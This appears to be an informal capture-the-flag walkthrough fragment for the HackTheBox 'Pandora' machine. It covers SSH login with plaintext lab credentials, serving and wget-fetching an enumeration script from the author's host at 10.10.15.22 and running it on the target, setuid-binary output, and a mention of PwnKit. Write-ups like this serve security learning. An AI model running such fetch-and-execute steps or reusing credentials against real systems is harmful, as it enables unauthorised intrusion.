 /usr/bin/host_check -u daniel -p HotelBabylon23

# ssh
```sh
ssh daniel@pandora.htb
```
# lse
![](https://i.imgur.com/IVbKPL4.png)
on My computer in my script directory
```sh
python2.7 -m SimpleHTTPServer
```
on the target
```sh
wget http://10.10.15.22:8000/lse.sh
chmod +x lse.sh
./lse.sh
```
```sh
============================================================( file system )=====
[*] fst000 Writable files outside user's home.............................. yes!
[*] fst010 Binaries with setuid bit........................................ yes!
[!] fst020 Uncommon setuid binaries........................................ yes!
---
/usr/bin/pandora_backup
---
```

# pownkit
![](https://i.imgur.com/Bk4gsvA.png)
```sh
root         960  0.0  0.2 236420  8932 ?        Ssl  10:00   0:00 /usr/lib/policykit-1/polkitd --no-debug
```
![](https://imgflip.com/s/meme/Heavy-Breathing-Cat.jpg)
I have to resist!!!


# pandora_backup
![](https://i.imgur.com/KAQW2JG.png)
I have to pwn matt first.

# linPEAS
https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
![](https://i.imgur.com/fLklauz.png)
I'm not supposed to use this exploit... 
I can do it to get the frre flags but it'm not a cheater.
